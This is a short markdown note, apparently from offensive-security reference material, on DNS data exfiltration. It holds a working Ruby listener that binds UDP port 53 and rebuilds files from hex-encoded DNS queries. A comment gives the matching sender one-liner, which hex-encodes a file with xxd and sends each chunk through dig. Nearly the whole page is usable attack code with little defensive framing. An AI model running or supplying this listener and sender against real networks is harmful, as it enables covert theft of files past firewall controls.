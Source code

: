# DNS 


## DNS Data Exfiltration 
DNS out-band connection is usually allowed in local network which is the major benefits of using DNS to transfer data to external server. 

```ruby
#!/usr/bin/env ruby
#
# for c in $(xxd -p image.jpg); do dig @localhost $c; done
# 
require 'socket'

if ARGV.size < 1
  puts "[+] sudp ruby #{__FILE__} <FILENAME>"
  exit
else
  file = ARGV[0]
end

udpsoc = UDPSocket.new
udpsoc.bind('0.0.0.0', 53)

begin

  data     = ''
  data_old = ''
  
  loop do
    response = udpsoc.recvfrom(10000)
    response = response[0].force_encoding("ISO-8859-1").encode("utf-8")
    data = response.match(/[a-f0-9]([a-f0-9]).*[a-f0-9]([a-f0-9])/i).to_s
    
    File.open(file, 'a') do |d|
      d.write [data].pack("H*") unless data == data_old
      puts data unless data == data_old
    end
    
    data_old = data 
  end

rescue Exception => e
  puts e
end
```
